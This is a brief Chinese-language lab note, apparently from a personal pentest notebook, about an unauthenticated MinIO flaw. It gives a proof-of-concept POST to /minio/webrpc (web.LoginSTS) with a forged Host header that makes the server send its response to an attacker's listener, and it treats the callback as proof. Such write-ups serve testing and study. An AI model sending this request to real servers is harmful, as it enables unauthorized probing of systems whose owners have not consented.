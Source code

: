 ### Minio未授权

靶机：10.10.10.139

监听：10.10.10.129



向服务器发送请求，修改请求头中HOST的值，让其返回数据包给攻击者的监听服务器



POC:

```
POST /minio/webrpc HTTP/1.1
Host: 10.10.10.129:6666
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 60

{"id":1,"jsonrpc":"2.0","params":{},"method":"web.LoginSTS"}
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220721091909.png)





监听得到返回包，证明漏洞存在

![image-20220721091928433](C:\Users\19026\AppData\Roaming\Typora\typora-user-images\image-20220721091928433.png)